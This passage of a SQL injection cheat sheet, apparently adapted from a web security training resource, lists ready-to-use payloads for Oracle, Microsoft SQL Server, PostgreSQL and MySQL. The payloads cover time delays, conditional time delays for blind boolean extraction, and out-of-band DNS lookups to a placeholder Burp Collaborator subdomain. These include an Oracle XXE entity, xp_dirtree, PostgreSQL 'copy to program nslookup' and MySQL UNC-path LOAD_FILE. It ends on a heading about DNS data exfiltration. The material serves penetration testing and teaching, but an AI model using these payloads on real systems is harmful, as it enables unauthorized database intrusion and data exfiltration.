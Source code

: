 | Language | Syntax |
|----------|--------|
|**Oracle**	|dbms_pipe.receive_message(('a'),10)|
|**Microsoft**	|WAITFOR DELAY '0:0:10'|
|**PostgreSQL**	|SELECT pg_sleep(10)|
|**MySQL**	|SELECT sleep(10)|

# Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.

| Language | Syntax |
|----------|--------|
|**Oracle**	|SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual|
|**Microsoft**	|IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'|
|**PostgreSQL**	|SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END|
|**MySQL**	|SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')|

# DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

| Language | Syntax |
|----------|--------|
|**Oracle** |**The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:**|
||SELECT extractvalue(xmltype('\<?xml version="1.0" encoding="UTF-8"?\>\<!DOCTYPE root [ \<!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"\> %remote;]\>'),'/l') FROM dual|
||**The following technique works on fully patched Oracle installations, but requires elevated privileges:**|
||SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')|
|**Microsoft**	|exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'|
|**PostgreSQL**	|copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'|
|**MySQL**	|**The following techniques work on Windows only:**|
||LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')|
||SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'|

# DNS lookup with data exfiltration
You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.
